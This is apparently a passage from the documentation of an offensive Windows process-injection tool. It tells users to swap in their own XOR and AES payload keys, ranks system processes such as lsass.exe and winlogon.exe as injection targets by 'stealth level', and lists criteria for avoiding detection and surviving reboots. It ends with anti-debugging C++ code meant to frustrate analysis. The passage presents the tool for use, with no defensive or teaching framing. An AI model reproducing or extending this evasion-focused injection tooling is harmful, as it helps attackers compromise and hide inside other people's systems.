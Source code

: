 Replace the default encryption keys in the source code:

```cpp
// XOR key (16 bytes)
const BYTE XOR_KEY[] = {
    0x4A, 0x3F, 0x7B, 0x2E, 0x9C, 0x1D, 0x8A, 0x5F,
    0x6E, 0x2B, 0x4C, 0x8D, 0x1A, 0x7F, 0x3E, 0x9B
};

// AES key (16 bytes)
const BYTE AES_KEY[] = {
    0x2B, 0x7E, 0x15, 0x16, 0x28, 0xAE, 0xD2, 0xA6,
    0xAB, 0xF7, 0x15, 0x88, 0x09, 0xCF, 0x4F, 0x3C
};
```

## 🎯 Target Processes

### Recommended Targets

| Process | Privileges | Stealth Level | Notes |
|---------|------------|---------------|-------|
| **explorer.exe** | User | ⭐⭐⭐⭐⭐ | Most common, stable |
| **svchost.exe** | System | ⭐⭐⭐⭐ | High privileges |
| **winlogon.exe** | System | ⭐⭐⭐⭐ | Login process |
| **lsass.exe** | System | ⭐⭐⭐ | Requires elevation |
| **csrss.exe** | System | ⭐⭐⭐ | Critical system process |

### Process Selection Criteria

- **Stability**: Process should be long-running
- **Privileges**: Match required access level
- **Detection Risk**: Blend with normal activity
- **Persistence**: Survive system reboots

## 🔐 Anti-Detection Features

### Debugger Detection

```cpp
bool IsDebuggerPresent() {
    // Multiple detection methods
    if (::IsDebuggerPresent()) return true;
    
    // Check PEB BeingDebugged flag
    if (*(BYTE*)(__readgsqword(0x60) + 2)) return true;
    
    // Remote debugger detection
    BOOL isDebugged = FALSE;
    CheckRemoteDebuggerPresent(GetCurrentProcess(), &isDebugged);
    return isDebugged;
}
```
